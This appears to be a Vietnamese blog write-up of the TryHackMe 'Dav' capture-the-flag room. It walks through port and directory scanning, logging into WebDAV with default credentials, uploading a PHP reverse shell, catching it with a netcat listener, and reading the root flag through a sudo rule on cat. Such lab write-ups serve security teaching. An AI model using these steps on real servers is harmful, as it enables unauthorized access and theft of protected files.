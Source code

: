 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Dav"
date: "2022-03-16"
tags: [
    "tryhackme",
    "web",
    "linux",
    "webdav",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-16-THM-Dav/1.webp)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Web này chỉ là trang mặc định, phần source cũng không có gì đặc biệt. Tôi sẽ dùng *dirsearch* để tìm path

```python
[05:39:10] 401 -  459B  - /webdav/index.html                                
[05:39:10] 401 -  459B  - /webdav/                                          
[05:39:10] 401 -  459B  - /webdav/servlet/webdav/      
```

Khi truy cập vào path này, tôi cần phải có user và pass. Sau 1 lúc tìm hiểu về webdav thì tôi tìm được cách kiểm tra và truy cập webdav với user và pass mặc định. Nó ở [đây](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html). 

Thử login webdav với *cadaver* - tool có sẵn trên kali

```python
┌──(neo㉿kali)-[~]
└─$ cadaver http://10.10.115.69/webdav
Authentication required for webdav on server `10.10.115.69':
Username: wampp
Password: 
dav:/webdav/> ?
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/>
```

Tôi sẽ thử tạo 1 file txt và upload nó lên webdav, để kiểm tra xem nó có chạy không.

```python
┌──(neo㉿kali)-[~]
└─$ echo "TESTING" > test.txt
```

```python
dav:/webdav/> put test.txt
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 8 bytes succeeded.
dav:/webdav/> 
```

Truy cập trên web 

![testing](/assets/img/2022-03-16-THM-Dav/2.webp)

Thành công. Tôi sẽ thử đẩy reverse shell lên đây

```python
dav:/webdav/> put reshell.php 
Uploading reshell.php to `/webdav/reshell.php':
Progress: [=============================>] 100.0% of 2586 bytes succeeded.
dav:/webdav/> 
```

Tạo listener với port 2402 - port đã cấu hình bên trong file shell.

`nc -nlvp 2402`

Bây giờ thì thử truy cập shell vừa tạo 

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402            
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.115.69] 50358
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:17:08 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (690): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 
```

Tôi tìm được *user flag* trong thư mục user *merlin*

```python
www-data@ubuntu:/$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Aug 25  2019 .
drwxr-xr-x 22 root   root   4096 Aug 25  2019 ..
drwxr-xr-x  4 merlin merlin 4096 Aug 25  2019 merlin
drwxr-xr-x  2 wampp  wampp  4096 Aug 25  2019 wampp
www-data@ubuntu:/$ cd /home/merlin
cd /home/merlin
www-data@ubuntu:/home/merlin$ ls
ls
user.txt
www-data@ubuntu:/home/merlin$
```

## Privilege escalation

`sudo -l`

```python
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$
```

[cat | GTFOBins](https://gtfobins.github.io/gtfobins/cat/):

```python
www-data@ubuntu:/home/merlin$ LFILE=/root/root.txt
LFILE=/root/root.txt
www-data@ubuntu:/home/merlin$ sudo cat "$LFILE"
sudo cat "$LFILE"
1011***********************7afa5
www-data@ubuntu:/home/merlin$ 
```

